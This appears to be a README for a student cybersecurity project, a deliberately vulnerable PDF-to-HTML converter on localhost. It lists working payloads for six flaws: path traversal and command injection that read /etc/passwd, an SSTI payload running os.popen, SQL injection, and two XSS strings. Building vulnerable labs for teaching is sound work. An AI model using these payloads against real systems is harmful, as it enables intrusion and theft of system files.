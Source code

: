 # Vulnerable PDF to HTML converter

### [Link to project](https://github.com/ronutu/pdf-converter/tree/cybersec-proj)

The 6 vulnerabilities for my Cybersecurity project:

### 1. Path traversal:

Payload:

```bash
http://127.0.0.1:5000/image?filename=/etc/passwd
```

### 2. File non-sanitization / Command Injection:

Payload:

```bash
curl -X POST \
     -d "filename=dummy.pdf; cat /etc/passwd" \
     http://127.0.0.1:5000/run-script
```

### 3. SSTI (Server-side template injection):

Payload:

```bash
http://127.0.0.1:5000/render?content=%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('cat%20/etc/passwd').read()%7D%7D
```

### 4. SQL injection

Payload

```bash
1=1--
```

### 5. Reflected XSS

Payload

```bash
http://127.0.0.1:5000/preview?input=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```

### 6. DOM-based XSS

Payload

```bash
http://127.0.0.1:5000#<img src%3Dx onerror%3Dalert(1)>
```
